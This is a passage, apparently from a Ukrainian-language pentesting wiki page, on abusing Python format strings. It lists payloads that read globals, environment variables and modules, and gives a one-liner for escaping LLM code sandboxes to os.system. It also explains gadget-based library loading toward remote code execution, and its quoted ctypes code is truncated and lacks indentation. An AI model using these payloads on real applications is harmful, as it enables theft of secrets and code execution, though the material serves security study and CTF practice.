 > [!CAUTION]
> Перевірте також наступну сторінку щодо gadgets, які **читатимуть чутливу інформацію з внутрішніх об'єктів Python**:


{{#ref}}
../python-internal-read-gadgets.md
{{#endref}}

### Викриття чутливої інформації Payloads
```python
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}

# Example from https://corgi.rip/posts/buckeye-writeups/
secret_variable = "clueless"
x = new_user.User(username='{i.find.__globals__[so].mapperlib.sys.modules[__main__].secret_variable}',password='lol')
str(x) # Out: clueless
```
### LLM Jails bypass

З [here](https://www.cyberark.com/resources/threat-research-blog/anatomy-of-an-llm-rce): `().class.base.subclasses()[108].load_module('os').system('dir')`

### Від format до RCE — завантаження бібліотек

Згідно з [**TypeMonkey chall from this writeup**](https://corgi.rip/posts/buckeye-writeups/) можна завантажувати довільні бібліотеки з диска, зловживаючи format string vulnerability у python.

Нагадаємо, що кожного разу, коли в python виконується дія, викликається певна функція. Наприклад `2*3` виконає **`(2).mul(3)`** або **`{'a':'b'}['a']`** виконає **`{'a':'b'}.__getitem__('a')`**.

Більше прикладів дивись у розділі [**Python execution without calls**](#python-execution-without-calls).

A python format string vuln doesn't allow to execute function (it's doesn't allow to use parenthesis), so it's not possible to get RCE like `'{0.system("/bin/sh")}'.format(os)`.\
Однак можна використовувати `[]`. Тому, якщо якась поширена python-бібліотека має метод **`__getitem__`** або **`__getattr__`**, який виконує довільний код, її можна зловживати, щоб отримати RCE.

Шукаючи такий гаджет у python, у writeup пропонують цей [**Github search query**](https://github.com/search?q=repo%3Apython%2Fcpython+%2Fdef+%28__getitem__%7C__getattr__%29%2F+path%3ALib%2F+-path%3ALib%2Ftest%2F&type=code). Там він знайшов цей [one](https://github.com/python/cpython/blob/43303e362e3a7e2d96747d881021a14c7f7e3d0b/Lib/ctypes/__init__.py#L463):
```python
class LibraryLoader(object):
def __init__(self, dlltype):
self._dlltype = dlltype

def __getattr__(self, name):
if name[0] == '_':
raise AttributeError(name)
try:
dll = self._dlltype(name)
except OSError:
raise AttributeError(name)
setattr(self, name, dll)
return dll

def __getitem__(self, name):
```